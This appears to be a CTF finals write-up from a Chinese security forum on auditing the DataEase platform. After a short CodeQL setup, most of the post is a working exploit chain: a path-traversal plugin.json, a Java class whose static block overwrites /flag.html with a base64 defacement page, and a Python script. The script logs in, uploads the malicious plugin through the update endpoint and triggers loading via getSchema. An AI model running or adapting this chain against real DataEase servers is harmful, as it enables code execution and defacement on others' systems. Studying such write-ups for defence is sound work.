






# qwb-final-dataease代码审计-先知社区

> **来源**: https://xz.aliyun.com/news/16057  
> **文章ID**: 16057

---

## 免责声明：

本文章内容仅供教育和学习使用，不得用于非法或有害目的。请在合法范围内应用网络安全知识，对任何因使用本文内容造成的损失，文章作者不承担责任。  
文章作者博客地址为<https://n1ght.cn/>

## 漏洞分析

github远程数据库获取  
使用gh查询

```
gh api /repos/<owner>/<repo>/code-scanning/codeql/databases

```

返回信息类如

```
[
  {
    "id": 52476457,
    "name": "database.zip",
    "language": "javascript",
    "uploader": {
      "login": "github-advanced-security[bot]",
      "id": 62310815,
      "node_id": "MDM6Qm90NjIzMTA4MTU=",
      "avatar_url": "https://avatars.githubusercontent.com/in/57789?v=4",
      "gravatar_id": "",
      "url": "https://api.github.com/users/github-advanced-security%5Bbot%5D",
      "html_url": "https://github.com/apps/github-advanced-security",
      "followers_url": "https://api.github.com/users/github-advanced-security%5Bbot%5D/followers",
      "following_url": "https://api.github.com/users/github-advanced-security%5Bbot%5D/following{/other_user}",
      "gists_url": "https://api.github.com/users/github-advanced-security%5Bbot%5D/gists{/gist_id}",
      "starred_url": "https://api.github.com/users/github-advanced-security%5Bbot%5D/starred{/owner}{/repo}",
      "subscriptions_url": "https://api.github.com/users/github-advanced-security%5Bbot%5D/subscriptions",
      "organizations_url": "https://api.github.com/users/github-advanced-security%5Bbot%5D/orgs",
      "repos_url": "https://api.github.com/users/github-advanced-security%5Bbot%5D/repos",
      "events_url": "https://api.github.com/users/github-advanced-security%5Bbot%5D/events{/privacy}",
      "received_events_url": "https://api.github.com/users/github-advanced-security%5Bbot%5D/received_events",
      "type": "Bot",
      "site_admin": false
    },
    "content_type": "application/zip",
    "size": 90378463,
    "created_at": "2024-03-19T05:00:25Z",
    "updated_at": "2024-03-19T05:00:27Z",
    "url": "https://api.github.com/repositories/80249302/code-scanning/codeql/databases/javascript",
    "commit_oid": "e9b53833523d88d9bee77a4d45b4868ab2bc9a25"
  }
]

```

获取到相关内容下载

```
gh api /repos/<owner>/<repo>/code-scanning/codeql/databases/<language> -H 'Accept: application/zip' > path/to/local/database.zip

```

设置语言即可下载

实验的代码

```
gh api /repos/craftcms/cms/code-scanning/codeql/databases
gh api /repos/craftcms/cms/code-scanning/codeql/databases/javascript -H 'Accept: application/zip' > /mnt/h/test-database.zip

```

返回内容



后面我们使用codeql进行查询

```
/**
 * @name Empty block
 * @kind problem
 * @problem.severity warning
 * @id java/example/empty-block
 */

import java

class SourceController extends Method  {
    SourceController(){
        getQualifiedName().regexpMatch(".+Controller.+")
    }
}
class SinkMethod extends Callable {
    SinkMethod(){
        getACallee().getName().regexpMatch(".*localInstall.*")
    }
}

from SourceController source,SinkMethod sink
where source.calls(sink)
select source,source.getQualifiedName(),sink,sink.getQualifiedName()
```

使用codeql进行查询



可以看到

```
server {
        listen       80;
        server_name  localhost;

        location = /flag.html {
            root   /usr/share/nginx/html;
        }

        location /api/plugin/upload {
            if ($request_method = POST) {
                return 403;
            }
        }

        location /driver/file/upload {
            if ($request_method = POST) {
                return 403;
            }
        }

        location /staticResource/upload/ {
            if ($request_method = POST) {
                return 403;
            }
        }

        location / {
            proxy_pass http://dataease:8081;  # 内网服务器地址
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
        }
    }
```

localupload杯禁用但是update没有我们可以覆盖插件后进行连接



需要注意的是



这段代码有一个逻辑



我们的plugin.json要写成

```
{
  "name": "达梦数据源插件",
  "store": "default",
  "free": 0,
  "cost": 0,
  "category": "datasource",
  "descript": "达梦数据源插件",
  "version": "1.18.26",
  "creator": "DATAEASE",
  "moduleName": "dm-backend",
  "icon": null,
  "dsType": "../default/dm"
}

```

我们通过简单的方法patch一下即可，但是final的要求是hack.html页面

他的hack.html页面在/目录下

```
package io.dataease.plugins.datasource.dm.provider;

import io.dataease.plugins.datasource.entity.JdbcConfiguration;
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.util.Base64;

public class DmConfig extends JdbcConfiguration {
  static {
    try {
      (new File("/flag.html")).delete();
      FileOutputStream out = new FileOutputStream("/flag.html");
      out.write(Base64.getDecoder().decode("PCFET0NUWVBFIGh0bWw+DQo8aHRtbCBsYW5nPSJlbiI+DQo8aGVhZD4NCiAgPG1ldGEgY2hhcnNldD0iVVRGLTgiPg0KICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0id2lkdGg9ZGV2aWNlLXdpZHRoLCBpbml0aWFsLXNjYWxlPTEuMCI+DQogIDx0aXRsZT5IYWNrIGJ5IFBvbGFyaXM8L3RpdGxlPg0KICA8c3R5bGU+DQogICAgYm9keSB7DQogICAgICBtYXJnaW46IDA7DQogICAgICBiYWNrZ3JvdW5kOiBibGFjazsNCiAgICAgIGRpc3BsYXk6IGZsZXg7DQogICAgICBqdXN0aWZ5LWNvbnRlbnQ6IGNlbnRlcjsNCiAgICAgIGFsaWduLWl0ZW1zOiBjZW50ZXI7DQogICAgICBoZWlnaHQ6IDEwMHZoOw0KICAgICAgb3ZlcmZsb3c6IGhpZGRlbjsNCiAgICAgIGNvbG9yOiB3aGl0ZTsNCiAgICAgIGZvbnQtZmFtaWx5OiAnQXJpYWwnLCBzYW5zLXNlcmlmOw0KICAgIH0NCg0KICAgIC5oYWNrLXRleHQgew0KICAgICAgZm9udC1zaXplOiA1MHB4Ow0KICAgICAgdGV4dC10cmFuc2Zvcm06IHVwcGVyY2FzZTsNCiAgICAgIHRleHQtc2hhZG93OiAwIDAgNXB4ICMwMGZmMDAsIDAgMCAxMHB4ICMwMGZmMDAsIDAgMCAyMHB4ICMwMGZmMDAsIDAgMCA0MHB4ICMwMGZmMDA7DQogICAgICBhbmltYXRpb246IGdsaXRjaCAycyBpbmZpbml0ZTsNCiAgICB9DQoNCiAgICBAa2V5ZnJhbWVzIGdsaXRjaCB7DQogICAgICAwJSwgMTAwJSB7DQogICAgICAgIHRleHQtc2hhZG93OiAwIDAgNXB4ICMwMGZmMDAsIDAgMCAxMHB4ICMwMGZmMDAsIDAgMCAyMHB4ICMwMGZmMDAsIDAgMCA0MHB4ICMwMGZmMDA7DQogICAgICAgIHRyYW5zZm9ybTogdHJhbnNsYXRlKDAsIDApOw0KICAgICAgfQ0KICAgICAgMjAlIHsNCiAgICAgICAgdGV4dC1zaGFkb3c6IC0ycHggLTJweCA1cHggI2ZmMDAwMCwgMnB4IDJweCAxMHB4ICMwMDAwZmYsIDJweCAycHggMjBweCAjZmYwMDAwOw0KICAgICAgICB0cmFuc2Zvcm06IHRyYW5zbGF0ZSgtM3B4LCAycHgpOw0KICAgICAgfQ0KICAgICAgNDAlIHsNCiAgICAgICAgdGV4dC1zaGFkb3c6IDJweCAycHggNXB4ICNmZjAwMDAsIC0ycHggLTJweCAxMHB4ICMwMDAwZmYsIC0ycHggLTJweCAyMHB4ICNmZjAwMDA7DQogICAgICAgIHRyYW5zZm9ybTogdHJhbnNsYXRlKDNweCwgLTJweCk7DQogICAgICB9DQogICAgfQ0KDQogICAgLnNjYW5saW5lcyB7DQogICAgICBwb3NpdGlvbjogYWJzb2x1dGU7DQogICAgICB0b3A6IDA7DQogICAgICBsZWZ0OiAwOw0KICAgICAgd2lkdGg6IDEwMCU7DQogICAgICBoZWlnaHQ6IDEwMCU7DQogICAgICBiYWNrZ3JvdW5kOiByZXBlYXRpbmctbGluZWFyLWdyYWRpZW50KA0KICAgICAgICB0byBib3R0b20sDQogICAgICAgIHJnYmEoMCwgMCwgMCwgMC4xKSAwLA0KICAgICAgICByZ2JhKDAsIDAsIDAsIDAuMSkgMnB4LA0KICAgICAgICByZ2JhKDAsIDAsIDAsIDAuMikgMnB4LA0KICAgICAgICByZ2JhKDAsIDAsIDAsIDAuMikgNHB4DQogICAgICApOw0KICAgICAgcG9pbnRlci1ldmVudHM6IG5vbmU7DQogICAgICBhbmltYXRpb246IGZsaWNrZXIgMC4xcyBpbmZpbml0ZTsNCiAgICB9DQoNCiAgICBAa2V5ZnJhbWVzIGZsaWNrZXIgew0KICAgICAgMCUsIDEwMCUgew0KICAgICAgICBvcGFjaXR5OiAwLjg7DQogICAgICB9DQogICAgICA1MCUgew0KICAgICAgICBvcGFjaXR5OiAwLjY7DQogICAgICB9DQogICAgfQ0KICA8L3N0eWxlPg0KPC9oZWFkPg0KPGJvZHk+DQogIDxkaXYgY2xhc3M9ImhhY2stdGV4dCI+ZGF0YWVhc2UgSGFjayBieSBQb2xhcmlzPC9kaXY+DQogIDxkaXYgY2xhc3M9InNjYW5saW5lcyI+PC9kaXY+DQo8L2JvZHk+DQo8L2h0bWw+DQo="));
      out.flush();
      out.close();
    } catch (IOException e) {
      throw new RuntimeException(e);
    } 
  }

  public void setDriver(String driver) {
    this.driver = driver;
  }

  public void setExtraParams(String extraParams) {
    this.extraParams = extraParams;
  }

  private String driver = "dm.jdbc.driver.DmDriver";

  private String extraParams;

  public String getDriver() {
    return this.driver;
  }

  public String getExtraParams() {
    return this.extraParams;
  }

  public String getJdbc() {
    return "jdbc:dm://HOST:PORT"
      .replace("HOST", getHost().trim())
      .replace("PORT", getPort().toString());
  }
}

```

即可

自动化脚本，方便演示

zip -r poc.zip patch.jar plugin.json

打包成poc.zip，patch的jar包就不给了，不觉得自己分析是见很有趣的事情吗，跟打游戏一样，所以只有大体思路

```
import requests
import re
url = input("请输入url地址（例如：192.168.0.1）: \n")
# url = "192.168.0.102"
login_url = "http://{}:81/api/auth/login".format(url)
data = {
    "loginType":0,
    "password":"myZuoVBN0QkzG8ZDOfqsROJ/LvtyNUR9cdZD/TPCUdK8YuJOZgrfPqou29VXKlpW3SGIh++S4c6SwVhKg1yreg==",
    "username":"Vaa0/f4hbQNlZG7XIIk4uofw5di11LAy4HY8XucvH+qmu4mYouUd1jdBkLDTcfNHCImrlOXbM6Un2FapQfkjlg=="
}
login_resp = requests.post(login_url,json=data)

token = re.findall('token":"(.+?)"}}',login_resp.text)[0]
if token:
    print("登录成功")
else:
    print("登录失败")
header = {
    "Authorization":token
}
print("token: {}".format(token))
files = {
    "pluginId": (None, "13"),
    "file": ("poc.zip", open("poc.zip", "rb"), "application/octet-stream")
}
attack_resp = requests.post("http://{}:81/api/plugin/update/13".format(url),files=files,headers=header)
if "true" in attack_resp.text:
    print("注入恶意代码成功")
else:
    print("注入恶意代码失败")
connection = {"configuration":"{\"initialPoolSize\":5,\"extraParams\":\"\",\"minPoolSize\":5,\"maxPoolSize\":50,\"maxIdleTime\":30,\"acquireIncrement\":5,\"idleConnectionTestPeriod\":5,\"connectTimeout\":5,\"customDriver\":\"default\",\"queryTimeout\":30,\"host\":\"1\",\"port\":\"1\",\"username\":\"1\",\"password\":\"1\"}","apiConfiguration":[],"type":"dm","name":"1"}
requests.post("http://{}:81/datasource/getSchema/".format(url),headers=header,json=connection)
print("触发成功")

resp = requests.get("http://{}:81/flag.html".format(url))
if "Hack by Polaris" in resp.text:
    print("攻击成功")

```


